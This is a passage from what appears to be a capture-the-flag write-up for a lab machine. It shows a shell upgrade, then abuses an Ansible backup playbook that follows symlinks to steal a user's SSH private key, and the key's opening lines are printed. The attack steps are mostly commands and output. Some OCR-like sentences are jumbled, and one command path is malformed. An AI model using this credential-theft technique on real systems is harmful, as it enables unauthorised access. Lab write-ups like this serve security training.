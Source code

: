 python3 -c 'import pty;pty.spawn("/bin/bash");'
tomcat@seal:/var/lib/tomcat9$ 

tomcat@seal:/home/luis$ ls -la
ls -la
total 51320
drwxr-xr-x 9 luis luis     4096 May  7 07:01 .
drwxr-xr-x 3 root root     4096 May  5 12:52 ..
drwxrwxr-x 3 luis luis     4096 May  7 06:00 .ansible
lrwxrwxrwx 1 luis luis        9 May  5 12:57 .bash_history -> /dev/null
-rw-r--r-- 1 luis luis      220 May  5 12:52 .bash_logout
-rw-r--r-- 1 luis luis     3797 May  5 12:52 .bashrc
drwxr-xr-x 3 luis luis     4096 May  7 07:00 .cache
drwxrwxr-x 3 luis luis     4096 May  5 13:45 .config
drwxrwxr-x 6 luis luis     4096 Jul 12 06:14 .gitbucket
-rw-r--r-- 1 luis luis 52497951 Jan 14 02:51 gitbucket.war
drwxrwxr-x 3 luis luis     4096 May  5 13:41 .java
drwxrwxr-x 3 luis luis     4096 May  5 14:33 .local
-rw-r--r-- 1 luis luis      807 May  5 12:52 .profile
drwx------ 2 luis luis     4096 May  7 06:10 .ssh
-r-------- 1 luis luis       33 Jul 12 06:15 user.txt
```

I found the user.txt file in the user directory luis, but we do not have permission to access it, but there is a .ssh directory, and we have permission to access it, let’s visit

In the directory , we ```/opt/backups/playbookfound``` a ```rum.ymlfile,``` let’s check the content

```
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

Doesn't the idea come here~

According to interpret ```run.yml``` the file, we can create a link to ```luis``` the ```id_rsa``` link, we can put it in ```/uploads``` the directory

```
/opt/backups/archives
ln -s ~/home/luis/.ssh/id_rsa /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/id_rsa
cp backup-2021-07-12-08:46:33.gz /dev/shm
cd /dev/shm
mv backup-2021-07-12-08:46:33.gz backup.tar.gz
tar -xvf backup.tar.gz
```

In the directory ```/dev/shm/dashboard/uploads``` we can see our ```id_rsa``` file, let’s check the content

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG